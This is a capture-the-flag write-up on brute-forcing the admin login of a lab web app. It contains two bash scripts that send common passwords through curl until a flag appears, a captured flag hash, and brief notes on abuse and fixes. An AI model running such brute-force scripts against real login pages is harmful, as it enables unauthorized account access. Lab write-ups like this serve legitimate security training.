 # Where:
    /?page=signin
# How:

-Run *brute_42_admin.sh <ipAddressUsedForSite>*:

    #!/bin/bash

    password=(123456 password 12345678 qwerty abc123 123456789 111111 1234567 iloveyou adobe123 123123 Admin 1234567890 letmein photoshop 1234 monkey shadow sunshine 12345 password1 princess azerty trustno1 000000)
    ip="192.168.56.101" && [[ "$1" ]]  && ip="$1"

    for i in ${password[@]}; do
        curl -X POST "http://${ip}/index.php?page=signin&username=admin&password=${i}&Login=Login#" | grep 'flag'
    done

OR

-Run *neat_brute_42_admin.sh <ipAddressUsedForSite>*:
    #!/bin/bash

    password=(123456 password 12345678 qwerty abc123 123456789 111111 1234567 iloveyou adobe123 123123 Admin 1234567890 letmein photoshop 1234 monkey shadow sunshine 12345 password1 princess azerty trustno1 000000)
    ip="192.168.56.101" && [[ "$1" ]]  && ip="$1"

    for i in ${password[@]}; do
        if curl --silent -X POST "http://${ip}/index.php?page=signin&username=admin&password=${i}&Login=Login#" | grep 'flag';
        then
            echo -e "\nPassword is:\t$i\n"
            exit 1
        fi
    done
    echo -e "\nPassword is not in list\n"

-curl is a tool to transfer data from or to a server, using one of the supported protocols (HTTP, HTTPS, FTP, FTPS, GOPHER, DICT, TELNET, LDAP or FILE).

- *--silent* stops the *workings* outputs so as to only give the final output.

- *-X Post* tells curl we want to make a POST request.

- *ip* is the ip address passed as an ARG.

- We POST *admin* as username and each *i* in the list of passwords as the password.

-We grep the HTML each time to only get the line with the flag.

# Flag:
    b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2

# Possible abuses:

Malicious users can access other accounts.

# Fix:

Better password requirements would make a bruteforce attack a lot more difficult.
Using POST instead of GET also makes it more difficult for malicious users to see how the info is passed.